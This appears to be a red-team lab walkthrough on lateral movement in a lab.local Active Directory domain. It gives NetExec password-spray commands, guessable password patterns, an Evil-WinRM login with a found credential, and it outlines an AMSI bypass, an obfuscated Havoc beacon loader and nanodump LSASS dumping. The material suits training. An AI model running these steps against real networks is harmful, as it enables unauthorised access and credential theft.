 # 5 - Lateral Movement
With the credentials recovered from secretsdump `or cracked from Kerberoasting`, we begin lateral movement:

# Password Spray & Weak Credential Exploitation

Password spraying is a low-noise, high-success technique that tests one password across many users, often exploiting common patterns and weak password policies.

## Usernames list
- Usernames were extracted based on the Havoc's BOF `domainenum` and have been saved for convenience at:
```
/home/kali/password_spray/usernames.txt
```

![image](https://github.com/user-attachments/assets/deeff09c-1623-4639-9b0e-6dfb33bff1ee)


## Password Policy
Before performing any password spray, it's critical to understand the domain's account lockout policy. Spraying without this knowledge can trigger 
- Account lockouts
- User complaints
- Blue team alerts
- Immediate detection of your presence

The Havoc's BOF `dcenum`, which we already used on basic enumeration, can help us to check the Domain Password Policy:

![image](https://github.com/user-attachments/assets/f52a30cd-5351-4db4-8127-5154f088b5c3)


# Common Password Patterns
Many users follow predictable patterns when creating passwords. Some of the most abusable formats include:
- 📆 MonthYear → March2024
- 🌤 SeasonYear → Summer2025!
- 📅 DayDate → Tuesday23!
- 💀 Leetspeak → L@bl0cal, P@ssw0rd123, Adm1n!2024

These are often overlooked by defenders but easily guessed by attackers.

- A password list `passwords.txt` with weak/common credentials was previously created and located at:
```
/home/kali/password_spray/passwords.txt
```

## Netexec 1 - One Password for All Users
Run a password spray using NetExec:
```bash
cd ~/password_spray/
netexec smb 10.10.X.10 -u 'usernames.txt' -p 'L@bl0cal' -d lab.local -t 5 --continue-on-success --dns-tcp --dns-server 10.10.X.10 --log one_for_all
```
> - Sweeps across the subnet using one weak password
> - Identifies any accounts that reused `L@bl0cal`
> - Ideal first strike — low risk of lockout

![image](https://github.com/user-attachments/assets/dc1f1de3-db2e-4ec0-a77a-8dec589ae5af)


## Netexec 2 - Matching username = password
Run a password spray using NetExec:
```bash
netexec smb 10.10.X.10 -u 'usernames.txt' -p 'usernames.txt' -d lab.local -t 5 --continue-on-success --dns-tcp --dns-server 10.10.X.10 --log password_equal_username
```
> - Tests each user with their own username as password
> - Example: jdoe:jdoe, admin:admin
> - Simple, effective, and surprisingly successful in many orgs

![image](https://github.com/user-attachments/assets/4d53a9b8-561d-40ef-ad1e-d9efa8b0e0e2)


## Netexec 3 - Full Spray with Password List
```bash
netexec smb 10.10.X.10 -u 'usernames.txt' -p 'passwords.txt' -d lab.local -t 5 --continue-on-success --dns-tcp --dns-server 10.10.X.10 --log pass_sweep
```
> - Tests each password in the list against every user
> - Be cautious of account lockout policies: `try to space attempts over time`

![image](https://github.com/user-attachments/assets/591afcfd-b95d-4e36-b7ea-76e538b39646)


Once done, you can confirm the results using `cat` and `grep` commands:
```bash
cat pass_weep | grep Pwn3d
```

![image](https://github.com/user-attachments/assets/07e8b1b2-0e0b-412d-aa21-d1e12f0aa8fe)

## Remote Shell via Evil-WinRM
For targets with `WinRM` enabled do:
```
evil-winrm -i 10.10.X.10 -u svc_exchange  -p 1q2w3e4r
```

Executing the command above, we gain shell access on the Domain Controller with a Full PowerShell session (high-integrity context).

Using [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) we can do:
- File upload/download
- Script execution
- Live command interaction

![image](https://github.com/user-attachments/assets/0fccb518-c85f-47a9-997c-49f8324487a1)


Let's deploy an elevated Havoc beacon on the Domain Controller server:
1. Execute the AMSI bypass script line-by-line
2. Deploy our obfuscated `.ps1` loader

This gave us a new high-privileged Beacon on the most critical asset in the network.

> - With a fully elevated Beacon now running on the Domain Controller, we gain access to native post-exploitation modules within Havoc, including BOFs like `nanodump`.  
> - Nanodump is a Beacon Object File that functions similarly to Mimikatz: it dumps the LSASS memory safely and stealthily, allowing credential extraction without touching the disk.  
> - However, since we've already performed a full `NTDS.dit` hash dump using Impacket's `secretsdump.py`, dumping LSASS again would be redundant.  

Still, it's important to note that `nanodump` works reliably from an elevated Beacon, and in scenarios without cert access or full hash dumps, it would be a powerful alternative to extract credentials in-memory.



